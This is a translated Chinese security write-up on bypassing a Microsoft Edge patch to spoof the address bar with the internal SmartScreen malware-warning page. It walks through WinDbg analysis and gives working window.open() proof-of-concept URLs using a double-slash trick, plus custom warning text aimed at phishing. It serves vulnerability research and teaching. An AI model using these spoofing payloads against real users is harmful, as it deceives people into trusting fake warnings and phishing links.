

# 【技术分享】如何绕过最新微软Edge补丁并继续欺骗地址栏加载恶意警告页面


                                阅读量   
                                **111230**
                            
                        |
                        
                                                                                                                                    
                                                                                            


##### 译文声明

本文是翻译文章，文章原作者，文章来源：brokenbrowser.com
                                <br>原文地址：[https://www.brokenbrowser.com/bypass-the-patch-to-keep-spoofing-the-address-bar-with-the-malware-warning/](https://www.brokenbrowser.com/bypass-the-patch-to-keep-spoofing-the-address-bar-with-the-malware-warning/)

译文仅供参考，具体内容表达以及含义原文为准

**[](./img/85725/t01655af30ac749365a.png)**

****

翻译：[overXsky](http://bobao.360.cn/member/contribute?uid=858486419)

稿费：200RMB（不服你也来投稿啊！）

投稿方式：发送邮件至linwei#360.cn，或登陆网页版在线投稿

**<br>**

**概述**

本周二，微软推送了一个[重大补丁](https://technet.microsoft.com/library/security/MS17-006)，修复了许多个重大安全漏洞，极大地提高了Edge浏览器开发者及其安全性的声誉。但我希望微软能够说服那些依然遵循荒唐的[IE政策](https://www.brokenbrowser.com/on-patching-security-bugs/)的守旧派，或者至少能够公开的解释一下他们为什么毫不关心IE——要么废除它，要么保护它。

如果你还没有看过之前的一篇《[使用恶意软件警告欺骗地址栏](https://www.brokenbrowser.com/spoof-addressbar-malware/)》，建议你在阅读下面讲如何绕过补丁的文章之前先去看一下。（注：有[中文版本](http://www.freebuf.com/articles/web/122924.html)）

<br>

**超快速回顾**

微软Edge允许我们加载它的一些包含.html页面的内部资源，比如像acr_error.htm就可以，但是像BlockSite.htm这样的却不行。这是为什么呢？因为后者可以轻松地欺骗内部恶意软件警告消息和地址栏。几个月前，我们曾通过[改变URL中的一个句点使其变成转义副本](https://www.brokenbrowser.com/spoof-addressbar-malware/)的方法绕过了这一限制。不过现在这个漏洞已经被修复了，Edge开发者做了更改使得在进行检查/字符串比较操作之前事先解码了我们的欺骗URL。所以，我们现在需要找到一种新的方法。来吧！现在关掉手头让你分心的事物，投入时间并沉浸在这趣味无穷的比特世界中。

<br>

**目前没有符号名文件**

微软的很多公开符号都没有上传，所以我们就无法在极短的时间内出色地完成分析。但也不用太过担心，不管怎样我们都会尽力并成功绕过它。只需要以攻击者的方式时刻在心中记住这一点：我们的目标是绕过这个补丁，就是这样。而不是一直纠结于：“唉，我需要休息一周的时间直到微软推送了符号名才行。”

<br>

**查找并分析“BlockSite.htm”字符串**

我们知道在海量的Edge代码中，某个地方一定存在着对“BlockSite.htm”的字符串比较操作。将Edge附加到调试器上，找到这个字符串并在此处设立内存断点，从而观察哪段代码树读取了它。

下面这行JavaScript代码甚至都没有打开一个新的窗口就抛出了“ACCESS_DENIED”拒绝访问异常。

```
window.open("ms-appx-web://microsoft.microsoftedge/assets/errorpages/BlockSite.htm");
```

Edge这种阻塞内部URL的行为是合理的：这个特定的错误页面能够接受来自hash/query-string中的参数，这就给了攻击者欺骗地址栏和页面内容的可乘之机。

我们的目标是再次愚弄Edge打开该URL。然而，这次的任务中我们会使用下面的URL（经过编码的句点和尾部的facebook，这样方便在内存中找到字符串）

```
window.open("ms-appx-web://microsoft.microsoftedge/assets/errorpages/BlockSite%2ehtm?BlockedDomain=facebook.com");
```

接下来就让我们附加Edge进程然后查找BlockSite.htm字符串，并将搜寻范围限制在EdgeHtml.dll模块中，因为绝大多数的Edge代码都驻留在此。这只是个猜测，如果我们没有找到想要的结果可以尝试搜寻其他模块，甚至所有的Edge文件。

成功加载正确的Edge进程后，我们需要知道模块的起始和结束位置，这样才能在内存中以确定的范围进行搜索。


```
0:029&gt; lm m edgehtml
Browse full module list
start end module name
00007fff`54ba0000 00007fff`5614d000 edgehtml
```

现在就可以在这段地址范围内执行search命令搜索感兴趣的字符串了。Windbg语法看上去复杂得有点吓人，但我可以告诉你下面的指令中，“s”执行搜索命令，“[1]”使它只返回地址信息，“u”说明目标是unicode字符串，后面那串丑陋的64位地址就是查找范围，要查找的字符串当然是“BlockSite”。


```
0:029&gt; s -[1]u 00007fff`54ba0000 00007fff`5614d000 "BlockSite"
0x00007fff`55d90846
0x00007fff`55d90944
0x00007fff`55e52c02
```

漂亮！WinDBG立即返回了三个结果，让我们来试试这个结果对不对，命令就是三个：du du du。这总让我联想到我朋友Eduardo的绰号“Dudú”。


```
0:029&gt; du 0x00007fff`55d90846; du 0x00007fff`55d90944; du 0x00007fff`55e52c02
00007fff`55d90846 "BlockSite.htm"
00007fff`55d90944 "BlockSite.htm"
00007fff`55e52c02 "BlockSite.htm"
```

这让我很兴奋。让我们在这三处分别下断点，来看看是谁访问了该字符串。


```
ba r1 0x00007fff`55d90846
ba r1 0x00007fff`55d90944
ba r1 0x00007fff`55e52c02
g （继续运行吧，Edge！）
```

很好。现在回到我们的JavaScript代码并尝试打开恶意URL。

```
window.open("ms-appx-web://microsoft.microsoftedge/assets/errorpages/BlockSite%2ehtm?BlockedDomain=facebook.com");
```

哇！立即到达断点处。现在已经回到了WinDbg，看看我们得到了些什么结果。


```
Breakpoint 0 hit
KERNELBASE!lstrlenW+0x18:
00007fff`74f6e2c8 75f6 jne KERNELBASE!lstrlenW+0x10 (00007fff`74f6e2c0) [br=1]
```

看上去我们正处在内核模块中，不要忘了我们的目标是找出EdgeHtml模块中哪段代码引用了BlockSite字符串。让我们先看看栈轨迹中的最近的5次调用。


```
0:013&gt; k 5
# Child-SP RetAddr Call Site
00 000000d3`14df8de8 00007fff`74f70244 KERNELBASE!lstrlenW+0x18
01 000000d3`14df8df0 00007fff`54fee629 KERNELBASE!StrStrIW+0x54
02 000000d3`14df8eb0 00007fff`55004e6b edgehtml!Ordinal107+0xc6059
03 000000d3`14df9f50 00007fff`55007272 edgehtml!Ordinal107+0xdc89b
04 000000d3`14df9f80 00007fff`55004cae edgehtml!Ordinal107+0xdeca2
```

开头两个属于内核模块，接下来的三个都来自于EdgeHtml。说得更明白些，edgehtml中的一段代码调用了内核模块/库中的StrStrIW函数，这看上去十分标准。快速地Google一下StrStrIW就能看到MSDN对其的[说明文档](https://msdn.microsoft.com/en-us/library/windows/desktop/bb773439(v=vs.85).aspx)。

[](https://p5.ssl.qhimg.com/t017a419328013e2f12.png)

文档相当清楚，也多亏了栈轨迹我们得知edgehtml调用了该函数。让我们在Edge返回地址下断点来分析到达该点前的代码。（另外，我们还可以使用两次pt命令，即跳至下一返回命令。可以自己试一试！）


```
bp edgehtml!Ordinal107+0xc6059
g
```

执行后立马停在了断点处：


```
Breakpoint 3 hit
edgehtml!Ordinal107+0xc6059:
00007fff`54fee629 4885c0 test rax,rax
```

但我们刚从字符串比较处返回，不妨往回看看究竟发生了什么。在WinDbg中我们可以快速向上反汇编（ub命令）


```
0:013&gt; ub $ip
edgehtml!Ordinal107+0xc602d:
00007fff`54fee5fd lea rdx,[edgehtml!Ordinal138+0x3e4ff8 (00007fff`55d5e6b8)]
00007fff`54fee604 lea rcx,[rsp+30h]
00007fff`54fee609 call qword ptr [edgehtml!Ordinal138+0x38b5b8 (00007fff`55d04c78)]
00007fff`54fee60f test eax,eax
00007fff`54fee611 jne edgehtml!Ordinal107+0xc6108 (00007fff`54fee6d8)
00007fff`54fee617 lea rdx,[edgehtml!Ordinal138+0x417160] (第二个参数)
00007fff`54fee61e lea rcx,[rsp+30h]                      (第一个参数)
00007fff`54fee623 call qword ptr [edgehtml!Ordinal138+0x38b5c8]
```

很好。可惜我们没有全部的符号名所以结果看上去有些丑陋。但是不用担心，我们知道我们刚从上一个调用返回（最下面一行处那个调用）。并且在该调用之前传递过两个参数，一个在rdx中另一个在rcx中（那两行lea）。但因为call已经执行过了所以目前我们不知道那两个参数是什么，而且这两个参数的值可能是可以被更改的。让我们在最近的一个调用下断点（这样它就不会被执行）做进一步检查，并且一旦我们到达断点就检查其中的参数：


```
bd * (取消之前的断点)
bp 00007fff`54fee623
g
```

现在我们将有机会查看在进行字符串比较之前究竟发生了什么。运行之前的JavaScript命令可以来到断点的位置。


```
Breakpoint 4 hit
edgehtml!Ordinal107+0xc6053:
00007fff`54fee623 call qword ptr [edgehtml!Ordinal138+0x38b5c8] ds:00007fff`55d04c88={KERNELBASE!StrStrIW (00007fff`74f701f0)}
```

我们调查一下传递给StrStrIW函数的参数：


```
0:013&gt; du @rcx (First argument)
000000d3`14df8ee0 "ms-appx-web://microsoft.microsof"
000000d3`14df8f20 "tedge/assets/errorpages/BlockSit"
000000d3`14df8f60 "e.htm?BlockedDomain=facebook.com"
0:013&gt; du @rdx (Second argument)
00007fff`55d90820 "/assets/errorPages/BlockSite.htm"
```

哈！我们看到%2e（句点）已经被解码了。这让我感觉像是Edge调用了StrStrIW函数后检查了“/assets/errorPages/BlockSite.htm”是否包含在URL中。这是我目前相信的伪代码：


```
var url = "ms-appx-web://microsoft.microsoftedge/assets/errorpages/BlockSite.htm?BlockedDomain=facebook.com";
var badString = "/assets/errorPages/BlockSite.htm";
if (badString is inside URL) ACCESS_DENIED;
```

我们需要记住的很重要的一点是，之所以要调查这里是因为在字符串比较操作之后我们没有看到别的检查，而且比较操作就在我们面前，很快就将被执行。不过我们不用考虑的太多，只要能够用类似的技术绕过就行了。

最主要的问题在于，此处的比较操作是使用硬编码的字符串来进行的，但我们知道URL可以有很多种方式来写。之前我们的办法就是编码一个句点，这次需要想出一种新的办法，因为打补丁后会在作比较前解码句点从而导致失败。

现在我的脑海中浮现出许多种方式，比如多重编码，或者在URL中加入更多的斜杠。让我们试一试加入一个斜杠，可能能够欺骗字符串检查并被视为一个合法的URL。所以我们在errorPages后面加入一个斜杠，像这样：

```
window.open("ms-appx-web://microsoft.microsoftedge/assets/errorpages//BlockSite.htm?BlockedDomain=facebook.com");
```

[](https://p1.ssl.qhimg.com/t0165a46bc67ad78ab7.png)

哇！好像一个简单的双斜杠就能绕过补丁并让Edge加载错误页面，让我们构造一个更完善的查询字符串来完全骗过恶意软件警告页面：

```
window.open("ms-appx-web://microsoft.microsoftedge/assets/errorpages//BlockSite.htm?BlockedDomain=facebook.com&amp;Host=These guys at Facebook and in particular, Justin Rogers#http://www.facebook.com");
```

[](https://p2.ssl.qhimg.com/t016d45bd0af79ee29b.png)

<br>

**PoC验证及后话**

PoC链接：

[https://www.cracking.com.ar/demos/edgesmartscreen/patch-bypass-1.html](https://www.cracking.com.ar/demos/edgesmartscreen/patch-bypass-1.html) 

打开后界面如图所示：

[](https://p4.ssl.qhimg.com/t0100cfdc7d231c152e.png)

使用方式很简单，比如想要执行一个如下的JavaScript命令：

```
window.open("ms-appx-web://microsoft.microsoftedge/assets/errorpages//BlockSite.htm?BlockedDomain=http://www.baidu.com&amp;Host=It's not safe,please use https://www.so.com/ instead#http://www.baidu.com");
```

只需在第一个文本框中输入“http://www.baidu.com”，第二个文本框中输入“It's not safe, please use https://www.so.com/ instead”，然后点击open smartsceen按钮，就会弹出baidu.com不安全的警告：

[](https://p4.ssl.qhimg.com/t01a6f5eb2735ee5f2b.png)

试想一下，当普通用户没有防备地点击了遭受攻击的网站中的按钮（比如导航网站的搜索引擎或者银行登录页面），网站弹出一个警告页面并甩出一个新的钓鱼链接，然后用户可能就中招了。

其实最后会发现绕过的方式十分简单，并且十分有效，但发现并找到这一思路的过程值得学习。
